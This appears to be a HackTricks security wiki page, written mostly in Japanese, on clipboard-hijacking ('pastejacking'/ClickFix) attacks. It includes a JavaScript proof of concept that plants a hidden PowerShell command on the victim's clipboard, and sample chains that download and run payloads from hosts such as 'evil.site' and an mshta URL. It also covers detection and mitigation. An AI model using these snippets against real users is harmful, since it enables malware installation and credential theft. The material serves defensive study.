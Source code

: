 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "自分でコピーしていないものは絶対に貼り付けないこと。" – 古いが今でも有効なアドバイス

## Overview

Clipboard hijacking – 別名 *pastejacking* – は、ユーザーがコマンドを検査せずに日常的にコピー＆ペーストする事実を悪用します。悪意のあるウェブページ（またはElectronやデスクトップアプリケーションなどのJavaScript対応コンテキスト）は、攻撃者が制御するテキストをプログラム的にシステムクリップボードに配置します。被害者は、通常は巧妙に作成されたソーシャルエンジニアリングの指示によって、**Win + R**（実行ダイアログ）、**Win + X**（クイックアクセス / PowerShell）を押すか、ターミナルを開いてクリップボードの内容を*貼り付け*、任意のコマンドを即座に実行するように促されます。

**ファイルはダウンロードされず、添付ファイルは開かれないため**、この手法は添付ファイル、マクロ、または直接コマンド実行を監視するほとんどのメールおよびウェブコンテンツのセキュリティ制御を回避します。したがって、この攻撃はNetSupport RAT、Latrodectusローダー、またはLumma Stealerなどのコモディティマルウェアファミリーを配信するフィッシングキャンペーンで人気があります。

## JavaScript Proof-of-Concept
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
古いキャンペーンでは `document.execCommand('copy')` が使用されていましたが、新しいものは非同期の **Clipboard API** (`navigator.clipboard.writeText`) に依存しています。

## ClickFix / ClearFake フロー

1. ユーザーがタイポスクワッティングされたまたは侵害されたサイト（例: `docusign.sa[.]com`）を訪れます。
2. 注入された **ClearFake** JavaScript が `unsecuredCopyToClipboard()` ヘルパーを呼び出し、静かにBase64エンコードされたPowerShellワンライナーをクリップボードに保存します。
3. HTMLの指示が被害者に次のように伝えます: *“**Win + R** を押し、コマンドを貼り付けてEnterを押して問題を解決してください。”*
4. `powershell.exe` が実行され、正当な実行可能ファイルと悪意のあるDLLを含むアーカイブをダウンロードします（クラシックDLLサイドローディング）。
5. ローダーは追加のステージを復号し、シェルコードを注入し、永続性をインストールします（例: スケジュールされたタスク） – 最終的にNetSupport RAT / Latrodectus / Lumma Stealerを実行します。

### 例 NetSupport RAT チェーン
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (正当なJava WebStart) はそのディレクトリ内で `msvcp140.dll` を検索します。
* 悪意のあるDLLは **GetProcAddress** を使用してAPIを動的に解決し、**curl.exe** を介して2つのバイナリ（`data_3.bin`, `data_4.bin`）をダウンロードし、ローリングXORキー `"https://google.com/"` を使用してそれらを復号化し、最終的なシェルコードを注入し、**client32.exe** (NetSupport RAT) を `C:\ProgramData\SecurityCheck_v1\` に解凍します。

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. **curl.exe**を使用して`la.txt`をダウンロードします。
2. **cscript.exe**内でJScriptダウンローダーを実行します。
3. MSIペイロードを取得 → 署名されたアプリケーションの横に`libcef.dll`をドロップ → DLLサイドローディング → シェルコード → Latrodectus。

### MSHTAを介したLumma Stealer
```
mshta https://iplogger.co/xxxx =+\\xxx
```
**mshta** コールは、`PartyContinued.exe` を取得し、`Boat.pst` (CAB) を抽出し、`extrac32` とファイルの連結を通じて `AutoIt3.exe` を再構築し、最終的にブラウザの資格情報を `sumeriavgv.digital` に外部送信する `.a3x` スクリプトを実行する隠れた PowerShell スクリプトを起動します。

## 検出とハンティング

ブルーチームは、クリップボード、プロセス作成、およびレジストリのテレメトリを組み合わせて、ペーストジャッキングの悪用を特定できます：

* Windows レジストリ: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` は **Win + R** コマンドの履歴を保持します - 異常な Base64 / 難読化されたエントリを探します。
* セキュリティイベント ID **4688** (プロセス作成) で、`ParentImage` == `explorer.exe` かつ `NewProcessName` が { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` } に含まれる場合。
* イベント ID **4663** は、疑わしい 4688 イベントの直前に `%LocalAppData%\Microsoft\Windows\WinX\` または一時フォルダ内でのファイル作成を示します。
* EDR クリップボードセンサー (存在する場合) – `Clipboard Write` の後に新しい PowerShell プロセスが直ちに続くことを相関させます。

## 緩和策

1. ブラウザの強化 – クリップボードの書き込みアクセスを無効にする (`dom.events.asyncClipboard.clipboardItem` など) またはユーザーのジェスチャーを要求します。
2. セキュリティ意識 – ユーザーに敏感なコマンドを *タイプ* するか、最初にテキストエディタに貼り付けるように教えます。
3. PowerShell 制約付き言語モード / 実行ポリシー + アプリケーションコントロールを使用して、任意のワンライナーをブロックします。
4. ネットワークコントロール – 既知のペーストジャッキングおよびマルウェア C2 ドメインへのアウトバウンドリクエストをブロックします。

## 関連トリック

* **Discord 招待ハイジャック** は、ユーザーを悪意のあるサーバーに誘導した後、同じ ClickFix アプローチを悪用することがよくあります：

{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## 参考文献

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}

